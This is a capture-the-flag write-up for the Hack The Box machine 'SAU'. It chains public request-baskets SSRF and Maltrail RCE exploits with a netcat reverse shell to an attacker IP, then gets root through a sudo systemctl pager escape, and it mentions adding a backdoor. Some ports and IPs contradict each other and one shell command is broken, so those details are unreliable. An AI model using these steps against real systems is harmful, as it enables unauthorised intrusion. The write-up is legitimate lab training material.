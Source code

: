 ```yaml
---
title: "HTB | SAU"
date: 2024-07-20 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Publicly Available Exploit leads to RCE

**Vulnerability Explanation:** The web application is running, 'request-baskets 1.2.1' and 'Mailtrail v0.53', both of which have a publicly available exploit on github. Using the exploit leads to RCE.

**Vulnerability Fix:** Update the web application to the latest patch or remove it if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** The initial scan revealed that TCP port 55555 is open. Christian discovered a vulnerable version of 'request-baskets' running. A public exploit was found off of github and used and it revealed another service running called "Mailtrail". Another publicly available exploit was found for this application and was used to gain RCE.

**Port Scan Results**

**TCP:** 22, 55555

**UDP:** NA

Use nmap to scan the target for open ports.

TCP port 22, 80 was discovered.

```shell
sudo nmap -p- -T5 10.10.11.244 -oN nmap.initial
```
![img-description](/assets/img/HTB/SAU/1.png)

Port 55555 is hosting a web server running a service called. 'request-baskets 1.2.1' as seen on the bottom left corner.

![img-description](/assets/img/HTB/SAU/2.png)

A publicly available exploit is on github. Save the exploit to a file named 'exploit.sh' and run it again the web server. Navigating to the generated link will reveal another service running called 'Mailtrail'.

* [https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

```shell
chmod +x exploit.sh
```

```shell
./exploit.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

![img-description](/assets/img/HTB/SAU/3.png)

![img-description](/assets/img/HTB/SAU/4.png)

A publicly availble exploit can be found for Mailtrail on github. Save the exploit to a file named 'exploit.py', start a nc listener on our host machine, and run the exploit to gain RCE on the target machine.

* [https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

```shell
nc -nlvp 4444
```

```shell
chmod +x exploit.py
```

```shell
./exploit.py http://10.10.11.224:55555 10.10.16.2 4444
```

![img-description](/assets/img/HTB/SAU/5.png)
![img-description](/assets/img/HTB/SAU/6.png)


We have successfully obtained initial access to the target machine as user 'puma'.

## Privilege Escalation - Sudo Privileges + GTFOBins

**Vulnerability Explanation:** The user 'puma' has access to run a command with sudo privileges. This allows for an attacker to abuse known 

**Vulnerability Fix:** Remove the available sudo privileges command from the 'puma' account if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian ran the command 'sudo -l' to list the sudo privileged commands available to the user 'puma'. A command was found using 'systemctl'. Christian was able to gain a 'root' shell through the sudo command and GTFOBins. 

Upgrade the shell and run the command 'sudo -l' to list the command that 'puma' can run as sudo.

```shell
python3 -c 'import pty:pty.spawn("/bin/bash")'
```

```shell
sudo -l
```

![img-description](/assets/img/HTB/SAU/7.png)

We have access to the command '/usr/bin/systemctl status trail.service'. Using the site GTFOBin, we can elevate our privileges by simply running the command '!sh' then enter.

```shell
sudo /usr/bin/systemctl status trail.service
```

```shell
!sh
```
```shell
python3 -c 'import pty:pty.spawn("/bin/bash")'
```

![img-description](/assets/img/HTB/SAU/8.png)


## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.

